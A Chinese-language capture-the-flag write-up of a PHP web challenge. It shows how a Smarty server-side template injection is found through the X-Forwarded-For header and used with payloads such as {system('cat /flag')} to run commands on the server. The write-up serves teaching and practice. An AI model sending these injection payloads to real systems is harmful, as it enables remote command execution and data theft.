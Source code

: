 ![](<./img/Pasted image 20221113151242.png>)

首页长这样

![](<./img/Pasted image 20221113151312.png>)

首页有一串js

![](<./img/Pasted image 20221113151850.png>)

好家伙，炫酷的打字效果往往只需要最朴素的编写方式，学到了（然而好像和题目没啥关系）

```php
/flag.php
```
![](<./img/Pasted image 20221113165329.png>)

很奇怪，这好像是个内网ip，应该是过了代理

猜测可修改`X-Forwarded-For`来控制回显

![](<./img/Pasted image 20221113165737.png>)

先瞎打一波看看有没有报错
```http
X-Forwarded-For: '{\%*asfo
```

![](<./img/Pasted image 20221113170317.png>)

通过报错确定服务端使用`Smarty`作为模板引擎

![](<./img/Pasted image 20221113170349.png>)

`Smarty`语法好像是基于`php`，尝试使用`php`的`system`函数
```http
X-Forwarded-For: {system('ls')}
```
![](<./img/Pasted image 20221113170907.png>)
```http
X-Forwarded-For: {system('cat /flag')}
```
![](<./img/Pasted image 20221113171153.png>)

#Web #PHP #SSTI #smarty